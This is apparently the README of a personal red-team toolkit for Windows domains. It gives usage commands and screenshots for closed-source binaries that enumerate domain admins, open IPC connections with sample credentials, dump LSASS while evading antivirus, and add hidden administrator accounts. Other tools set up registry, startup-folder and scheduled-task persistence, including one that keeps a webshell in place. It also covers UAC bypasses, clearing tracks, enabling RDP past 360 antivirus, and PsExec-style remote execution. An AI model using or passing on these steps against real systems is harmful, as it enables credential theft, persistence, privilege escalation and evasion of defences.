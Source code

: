 # RedTeamTools

###### Tools developed during the personal learning process，if you find some problem I hope you can give me a issue let me know how to become better，thanks

###### Tools are not open source, use them and cherish them

```
Notes:
Some tools introduce you can go to my blog, you can get more design details

Blog address:
https://yangsirrr.github.io/
```

## 01Get Target User

```
new1.exe \\192.168.3.144
```

## 02Get Target Local Administrators Group

```
new2.exe administrators \\192.168.3.144
```

## 03Get Target All Local Group

```
new3.exe \\192.168.3.144
```

## 04Get Target Goup Member

```
new4.exe "domain admins" \\192.168.3.144
```

## 05Make The IPC Connect

```
new5.exe \\192.168.3.144 rootkit.org\sqladmin Admin12345
```

## 06Delete The IPC Connect

```
new6.exe \\192.168.3.144
```

## 07Get The Internet Session To Help Find The Domain Manager

```
new7.exe \\192.168.3.144
```

## 08Get Login User To Help Find The Domain Manager

```
new8.exe \\192.168.3.144
```

## 09Dump Lsass BypassAV

```
new9-1.exe
```

## 10Fast Information Collection

```
You can use in the workgroup OR domain computer
new10_domain.exe > 1.txt
new10_workgroup.exe > 2.txt
```

## 11Add Admin User BypassAV

```
new11.exe user pass
11.vbs #direct to use
easy11_direct.exe #direct to use   admininfo:support_win2019$/NoBase64==
easy11.dll  #rundll32 easy11.dll admin  admininfo:DefaultAccount$/NoBase64==
```

## 12Write The Registry

```
12.exe
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/12-1.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/12-2.png)

## 13Write The Start Dir

```
13.exe
Make sure your tar exe in the C:\Windows\Temp\Updating.exe
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/13.png)

## 14Taskplan To Exec Your EXE

```
14.exe c:\123\321.exe A
Very to use，like to this
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-1.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-2.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-3.png)

## 15Taskplan To Backup Your WEBSHELL

```
15x32.exe C:\phpstudyWWW\shell.php A
Very to use，like to this
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Add%20A%20Scheduled%20Task%20BypassAV%EF%BC%88WEBSHELL%EF%BC%89/image-20210920145033771.png)

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Add%20A%20Scheduled%20Task%20BypassAV%EF%BC%88WEBSHELL%EF%BC%89/image-20210920145309610.png)
## 16Use The Registry To Bypassuac(BypassAV)
```
Now this program have six plans to bypassuac in win10 maybe can use in win7(I don't have win7 machine to test)
you can easy to use, such as 16x64.exe 1or2or3or4or5or6 cmd.exe
16x64.exe 5 cmd.exe
```
![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20The%20Registry%20To%20Bypassuac(BypassAV)/1.png)
![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20The%20Registry%20To%20Bypassuac(BypassAV)/2.png)

## 17Use DLL Hijack To Bypassuac

```
After a simple test, two methods win10, Win11 can be successfully used
make sure upload the exe&jpg to your target windows, you can easy to use:
pic1_a.exe or pic2_a.exe

when you success, don't forget to clean up the tracks:
picall_clean.exe
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20DLL%20Hijack%20To%20BypassUAC/image-20211009131805909.png)

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20DLL%20Hijack%20To%20BypassUAC/image-20211009143909641.png)

```
bypass result
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20DLL%20Hijack%20To%20BypassUAC/bypass.gif)

## 18Fast Open Rdpport(BypassAV)

```
Easy to open the rdpport win10 can be success
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/18.gif)

```
bypass360
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/18-2.gif)

## 19PsexecLiker

```
19.exe 192.168.159.143 administrator Aa123456 C:\Users\Administrator\Desktop\1.exe test
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/PsexecLiker/psexec1.gif)

